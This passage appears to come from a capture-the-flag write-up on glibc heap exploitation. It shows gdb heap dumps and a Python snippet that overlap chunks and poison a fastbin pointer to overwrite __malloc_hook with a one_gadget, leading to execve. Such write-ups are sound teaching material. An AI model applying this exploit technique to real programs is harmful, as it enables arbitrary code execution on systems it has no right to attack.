 ```
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x555555757190 (overlap chunk with 0x555555757100(freed) )
(0x80)     fastbin[6]: 0x0
                  top: 0x555555757370 (size : 0x20c90) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x555555757100 (size : 0x200)
```

`chunk 0` is in the unsorted list. If we request a big enough allocation (and less than 0x200 - 0x10 size), we will be able to overlap the newly allocated chunk with the fastbin chunk at `0x555555757190`. We can leverage this overlap into performing a fastbin attack and finally overwrite `__malloc_hook` with `one_gadget`.

```
0x555555757100:	0x0000000000000000	0x0000000000000111 <-- new chunk
0x555555757110:	0x0000000000000000	0x0000000000000000
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000000	0x0000000000000000
0x555555757190:	0x0000000000000070	0x0000000000000070 <-- chunk 1 (free & overwrote FD field)
0x5555557571a0:	0x00007ffff7dd1aed	0x0000000000000000

(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x555555757190 --> 0x7ffff7dd1aed (size error (0x78)) --> 0xfff7a92e20000000 (invaild memory)
(0x80)     fastbin[6]: 0x0
```

Now with two allocations of size `0x68` we will get back `0x00007ffff7dd1aed` which will allow us to overwrite `__malloc_hook`. 

```python
# malloc will return 0x555555757190
alloc(0x68, 6)
# malloc will return 0x00007ffff7dd1aed
alloc(0x68, 7)
# __malloc_hook => one gadget
edit(7,"H"*0x13+p64(oneshot))
```

```
gdb-peda$ x/gx &__malloc_hook
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7afe117
gdb-peda$ x/5i 0x00007ffff7afe117
   0x7ffff7afe117 <exec_comm+2263>:	mov    rax,QWORD PTR [rip+0x2d2d9a]        # 0x7ffff7dd0eb8
   0x7ffff7afe11e <exec_comm+2270>:	lea    rsi,[rsp+0x70]
   0x7ffff7afe123 <exec_comm+2275>:	lea    rdi,[rip+0x9bbed]        # 0x7ffff7b99d17
   0x7ffff7afe12a <exec_comm+2282>:	mov    rdx,QWORD PTR [rax]
   0x7ffff7afe12d <exec_comm+2285>:	call   0x7ffff7ad9770 <execve>
```
